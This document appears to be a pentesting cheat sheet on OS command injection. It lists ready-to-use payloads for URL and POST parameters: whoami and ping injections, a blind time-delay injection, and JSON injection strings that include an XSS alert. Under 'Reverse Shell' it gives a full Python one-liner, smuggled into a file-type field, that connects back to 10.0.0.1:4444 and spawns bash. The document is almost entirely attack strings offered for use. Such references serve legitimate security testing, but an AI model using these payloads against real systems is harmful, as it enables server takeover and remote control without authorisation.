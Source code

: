 ```yaml
---
title: OS Command Injection
desc: 
tags: [Burp, Command, Injection, Linux, OS, Reverse, Shell, Web]
alts: []
render_with_liquid: false
---
```


## URL Parameters

```
/api/cmd/whoami
/command/whoami

/?cmd=whoami
```

<br />

## POST Parameters

- **Basic**

    ```sh
    productId=1&stockId=1|whoami
    
    file=example.jpg&filetype=png;ping -c 1 <local-ip>
    ```

- **Reverse Shell**

    ```sh
    file=example.jpg&filetype=png;export RHOST="10.0.0.1";export RPORT=4444;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
    ```

- **Blind Command Injection (Time Delay)**

    Using **"ping"** command.

    ```sh
    name=michael&email=michael@example.com||ping+-c+10+127.0.0.1||&message=hello
    ```

- **JSON Injection**

    ```json
    { "username": "\"; pwd \"" }
    {"name":"<script>alert(1)</script>", "email":"victim@vulnerable.com"}
    {"name": "admin", "content": "{{template: ./admin.php}}"}
    ```